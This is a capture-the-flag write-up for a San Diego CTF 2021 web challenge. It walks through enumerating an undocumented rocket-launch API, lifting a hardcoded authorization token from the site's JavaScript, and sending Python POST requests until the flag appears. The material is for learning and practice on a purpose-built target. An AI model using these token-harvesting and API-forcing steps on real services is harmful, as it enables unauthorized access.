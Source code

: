 # __San Diego CTF 2021__ 
##_Apolo 1337_

## Information

**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
WEB | 123 | soska_nerealka

**Description:** 

> Hey there intern! We have a rocket launch scheduled for noon today and the launch interface is down. You'll need to directly use the API to launch the rocket. No, we don't have any documentation. And quickly, our shareholders are watching!
>
>Website: https://space.sdc.tf/

## Solution
We should find information about this website API. Lets start with looking at requests from frontend. 

There we find GET request with "https://space.sdc.tf/api/status?verbose=" URL. It looks incomplete with this empty query parameter, does not it? Lets try to make a GET request with "https://space.sdc.tf/api/status?verbose=true".

So we get
```
{
	"status": "health",
	"longStatus": "Healthy. All routes are functioning properly.",
	"version": "1.0.0",
	"routes": [
		{
			"path": "/status",
			"status": "healthy"
		},
		{
			"path": "/rocketLaunch",
			"status": "healthy"
		},
		{
			"path": "/fuel",
			"status": "healthy"
		}
	]
}
```
Lets send empty POST request on rocketLaunch
```
import requests
import json

url = 'https://space.sdc.tf/api/rocketLaunch'
data = {}
headers = {'Content-Type': 'application/json'}

x = requests.post(url, data=json.dumps(data), headers=headers)

print(x.text)
```
Api answers with "rocket not specified". Lets try to specify it.
```
data = {"rocket": "apolo"}
```
Api answers with "rocket not recognized (available: triton)".
```
data = {"rocket": "triton"}
```
Api answers with "launchTime not specified". But we know from the task description that it should be launched at noon.
```
data = {"rocket": "triton", "launchTime": "12:00"}
```
Api answers with "fuel pumpID not specified". We can look at the available fiels by making Get request to "https://space.sdc.tf/api/fuel".
Lets use first pumpID from there.
```
data = {"rocket": "triton", "launchTime": "12:00", "pumpID": 1}
```
Api answers with "/fuel/1 is either not active or not above 50% capacity"
Ok, lets find the appropriate pump then!
```
data = {"rocket": "triton", "launchTime": "12:00", "pumpID": 4}
```
Api answers with "frontend authorization token not specified". So we need to find it!
We can easily find this code in one of files that are loaded by this website.
```
 return Object(c.useEffect)((function () {
                        var e = {
                            method: "GET"
                        };
                        window.localStorage.getItem("debug") && (e.headers = {
                                Token: "yiLYDykacWp9sgPMluQeKkANeRFXyU3ZuxBrj2BQ"
                            }),
                            fetch("./api/status?verbose=", e).then((function (e) {
                                return e.json()
                            })).then((function (e) {
                                return n(e.longStatus)
                            }))
                    }), []),
```
So the final code looks like this:
```
import requests
import json

url = 'https://space.sdc.tf/api/rocketLaunch'
data = {'rocket': 'triton', 'launchTime': '12:00', "pumpID": 4, "token": "yiLYDykacWp9sgPMluQeKkANeRFXyU3ZuxBrj2BQ"}
headers = {'Content-Type': 'application/json'}

x = requests.post(url, data=json.dumps(data), headers=headers)

print(x.text)
```
> sdctf{0ne_sM@lL_sT3p_f0R_h@ck3r$}
